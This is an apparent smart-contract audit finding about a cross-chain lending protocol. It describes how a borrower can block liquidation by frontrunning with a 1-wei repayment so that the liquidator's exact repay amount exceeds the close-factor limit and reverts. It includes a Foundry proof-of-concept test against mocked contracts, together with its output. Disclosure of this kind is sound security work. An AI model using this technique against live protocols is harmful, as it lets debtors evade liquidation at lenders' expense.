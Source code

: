 Innocent Aquamarine Swan

Medium

# User can prevent liquidations by frontrunning the transaction and slightly decreasing their debt

blurad

medium

### User can prevent liquidations by frontrunning the transaction and slightly decreasing their debt
<hr>

## Summary
User can prevent liquidations by frontrunning the transaction and decreasing their debt so that the liquidation transaction reverts.

## Vulnerability Detail

Vulnerability Detail
In the cross-chain liquidation process, liquidators must specify the exact amount of debt they want to liquidate via the repayAmount parameter in liquidateCrossChain(). The protocol enforces strict validation that this amount cannot exceed the maximum allowable liquidation amount based on the close factor.

The vulnerability exists in two critical validation points:

In `_validateAndPrepareLiquidation()`


```
uint256 maxLiquidationAmount = lendStorage.getMaxLiquidationRepayAmount(
    params.borrower,
    params.borrowedlToken,
    false // cross-chain liquidation
);
require(params.repayAmount <= maxLiquidationAmount, "Exceeds max liquidation");
```
In ``_executeLiquidation()``

```
uint256 maxLiquidation = _prepareLiquidationValues(params);
require(params.repayAmount <= maxLiquidation, "Exceeds max liquidation");
```
The maximum liquidation amount is calculated as:
`maxLiquidation = currentBorrow * closeFactorMantissa / 1e18`

## Impact
User can prevent liquidations by slightly modifying their position.

## PoC
```
// SPDX-License-Identifier: MIT
pragma solidity 0.8.23;

import "forge-std/Test.sol";
import "../src/LayerZero/CrossChainRouter.sol";
import "../src/LayerZero/LendStorage.sol";

contract FrontrunningLiquidationPOC is Test {
    CrossChainRouter public crossChainRouter;
    LendStorage public lendStorage;
    
    address public liquidator = makeAddr("liquidator");
    address public borrower = makeAddr("borrower");
    address public lToken = makeAddr("lToken");
    address public borrowedAsset = makeAddr("borrowedAsset");
    address public mockLendtroller = makeAddr("mockLendtroller");
    address public mockPriceOracle = makeAddr("mockPriceOracle");
    address public mockEndpoint = makeAddr("mockEndpoint");
    address public mockDelegate = makeAddr("mockDelegate");
    address public mockCoreRouter = makeAddr("mockCoreRouter");
    
    uint256 public constant INITIAL_DEBT = 1000e18;
    uint256 public constant CLOSE_FACTOR = 0.5e18; // 50%
    
    function setUp() public {
        // Deploy LendStorage first
        lendStorage = new LendStorage(mockLendtroller, mockPriceOracle, 1);
        
        // Mock the LayerZero endpoint to prevent delegate validation
        vm.mockCall(
            mockEndpoint,
            abi.encodeWithSignature("setDelegate(address)"),
            abi.encode()
        );
        
        // Deploy CrossChainRouter with proper delegate address
        crossChainRouter = new CrossChainRouter(
            mockEndpoint,     // endpoint - use mock address
            mockDelegate,     // delegate - use mock address (NOT zero)
            address(lendStorage),
            mockPriceOracle,
            mockLendtroller,
            payable(mockCoreRouter),
            1 // srcEid
        );
        
        // Authorize the CrossChainRouter to interact with LendStorage
        lendStorage.setAuthorizedContract(address(crossChainRouter), true);
        
        // Setup token mappings
        lendStorage.addSupportedTokens(borrowedAsset, lToken);
        
        // Mock lendtroller close factor
        vm.mockCall(
            mockLendtroller,
            abi.encodeWithSignature("closeFactorMantissa()"),
            abi.encode(CLOSE_FACTOR)
        );
        
        // Setup borrower with debt position
        _setupBorrowerPosition();
    }
    
    function _setupBorrowerPosition() internal {
        // Create a cross-chain collateral position for the borrower
        LendStorage.Borrow memory borrowPosition = LendStorage.Borrow({
            srcEid: 2, // Different chain
            destEid: 1, // Current chain
            principle: INITIAL_DEBT,
            borrowIndex: 1e18,
            borrowedlToken: lToken,
            srcToken: borrowedAsset
        });
        
        // Add the borrow position to storage
        vm.prank(address(crossChainRouter));
        lendStorage.addCrossChainCollateral(borrower, borrowedAsset, borrowPosition);
    }
    
    function testFrontrunningLiquidationFailure() public {
        console.log("=== Frontrunning Liquidation Attack POC ===");
        
        // Step 1: Calculate initial maximum liquidation amount
        uint256 initialMaxLiquidation = (INITIAL_DEBT * CLOSE_FACTOR) / 1e18; // 500e18
        
        console.log("Initial debt:", INITIAL_DEBT);
        console.log("Initial max liquidation:", initialMaxLiquidation);
        
        // Step 2: Borrower frontruns by slightly reducing debt (repaying 1 wei)
        uint256 frontrunAmount = 1; // 1 wei repayment
        uint256 newDebt = INITIAL_DEBT - frontrunAmount;
        
        // Update the borrower's position to simulate the frontrun
        LendStorage.Borrow[] memory userCollaterals = lendStorage.getCrossChainCollaterals(borrower, borrowedAsset);
        userCollaterals[0].principle = newDebt;
        
        vm.prank(address(crossChainRouter));
        lendStorage.updateCrossChainCollateral(borrower, borrowedAsset, 0, userCollaterals[0]);
        
        console.log("Debt after frontrun:", newDebt);
        
        // Step 3: Calculate new maximum liquidation after frontrun
        uint256 newMaxLiquidation = (newDebt * CLOSE_FACTOR) / 1e18;
        
        console.log("New max liquidation:", newMaxLiquidation);
        console.log("Liquidator's repay amount:", initialMaxLiquidation);
        console.log("Will liquidation fail?", initialMaxLiquidation > newMaxLiquidation);
        
        // Step 4: Mock the getMaxLiquidationRepayAmount to return the new max
        vm.mockCall(
            address(lendStorage),
            abi.encodeWithSignature("getMaxLiquidationRepayAmount(address,address,bool)"),
            abi.encode(newMaxLiquidation)
        );
        
        // Step 5: Attempt liquidation with original amount - should fail
        vm.expectRevert("Exceeds max liquidation");
        vm.prank(liquidator);
        crossChainRouter.liquidateCrossChain(
            borrower,
            initialMaxLiquidation, // Original calculated amount (now too high)
            2, // srcEid
            lToken,
            borrowedAsset
        );
        
        console.log("POC SUCCESS: Liquidation failed due to frontrunning!");
        console.log("The borrower successfully prevented liquidation by repaying only 1 wei");
        console.log("Liquidator's transaction reverted with 'Exceeds max liquidation'");
    }
}

```
PoC result
```
 === Frontrunning Liquidation Attack POC ===
  Initial debt: 1000000000000000000000
  Initial max liquidation: 500000000000000000000
  Debt after frontrun: 999999999999999999999
  New max liquidation: 499999999999999999999
  Liquidator's repay amount: 500000000000000000000
  Will liquidation fail? true
   POC SUCCESS: Liquidation failed due to frontrunning!
  The borrower successfully prevented liquidation by repaying only 1 wei
  Liquidator's transaction reverted with 'Exceeds max liquidation'

Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 1.99ms (275.10µs CPU time)

Ran 1 test suite in 27.85ms (1.99ms CPU time): 1 tests passed, 0 failed, 0 skipped (1 total tests)
```
## Tool used
Manual review

## Recommendation
The function shouldn't revert, instead just continue with the value it returns